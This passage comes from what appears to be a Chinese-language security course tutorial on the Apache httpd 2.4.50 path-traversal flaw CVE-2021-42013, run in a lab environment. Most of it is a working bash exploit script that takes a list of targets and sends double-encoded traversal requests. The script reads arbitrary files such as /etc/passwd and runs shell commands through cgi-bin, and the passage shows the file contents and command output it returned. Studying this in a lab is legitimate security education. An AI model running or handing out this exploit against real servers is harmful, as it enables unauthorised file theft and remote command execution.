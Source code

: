 要知道，在部署WebApp的过程中这两处修改是非常普遍的，因此该漏洞的影响范围非常大。

通过netstat -antp命令可以查看服务状态：

```bash
root@1dd54d1b3962:/home# netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      26722/httpd

```

**我们来来看看第二种方案，尝试使用MiTuan直接启动环境。**

我已经构建好了标准的2.4.50版本httpd服务器环境，你可以访问[MiTuan](http://mituan.zone)，直接搜索\[极客时间-漏洞挖掘与智能攻防实战\]并选择\[CVE-2021-42013\]来进行测试。

PoC代码如下：

```
#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
  echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
  echo ./PoC.sh targets.txt /etc/passwd
  echo ./PoC.sh targets.txt /bin/sh id
  exit
fi

for host in $(cat $1);
do
  echo $host
  if [[ $3 == '' ]]; then
    curl -v --path-as-is "$host/icons/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/$2";
    exit
  fi
  curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/$2";
done

```

执行PoC代码：

```bash
root@1dd54d1b3962:/home# ./CVE-2021-42013.sh targets.txt /etc/passwd
127.0.0.1
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

root@1dd54d1b3962:/home# ./CVE-2021-42013.sh targets.txt /bin/sh id
http://127.0.0.1
uid=1(daemon) gid=1(daemon) groups=1(daemon)

```
